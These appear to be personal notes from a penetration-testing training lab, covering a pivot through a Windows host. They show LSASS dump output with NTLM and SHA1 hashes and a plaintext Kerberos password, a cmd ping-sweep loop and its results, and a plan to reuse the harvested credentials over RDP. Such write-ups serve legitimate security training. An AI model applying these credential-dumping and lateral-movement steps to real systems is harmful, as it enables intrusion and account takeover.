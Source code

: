 Windows
IP - 172.16.5.35

Users at C:\Users folder

![[Pasted image 20230823112309.png]]

Dumping LSASS service we found useful info

```plain/text
== MSV ==
	Username: PIVOT-SRV01$
	Domain: INLANEFREIGHT
	LM: NA
	NT: 21ce18b1a025d4b0b01c0e716e99d476
	SHA1: 0f6097d8c745b1addfdfbbe733c1948e5d929527
	DPAPI: NA
== MSV ==
	Username: mlefay
	Domain: PIVOT-SRV01
	LM: NA
	NT: 2831bf1e4e0841d882328d5481fb5c92
	SHA1: ccb38ae19c47a04fa01542f30466d6c48ddc18d7
	DPAPI: NA
== Kerberos ==
	Username: vfrank
	Domain: INLANEFREIGHT.LOCAL
	Password: Imply wet Unmasked!
	password (hex)49006d0070006c0079002000770065007400200055006e006d00610073006b006500640021000000
```

We would try to crack the hashes but we have a plain text password for vfrank so we got credentials vfrank:'Imply wet Unmasked!'

Lets discover other machines

![[Pasted image 20230823115128.png]]

Making a ping sweep for the 172.16.6.0/254 network and we found two IPs

```bash
FOR /L %i IN (1,1,254) DO ping -n 1 172.16.6.%i | FIND /i "Reply">>C:\ipaddresses.txt

Reply from 172.16.6.25: bytes=32 time=1ms TTL=128
Reply from 172.16.6.35: bytes=32 time<1ms TTL=128
Reply from 172.16.6.45: bytes=32 time=1ms TTL=64
```

Now connect through RDP using mstsc.exe, IP 172.16.6.25 and credentials vfrank:'Imply wet Unmasked!'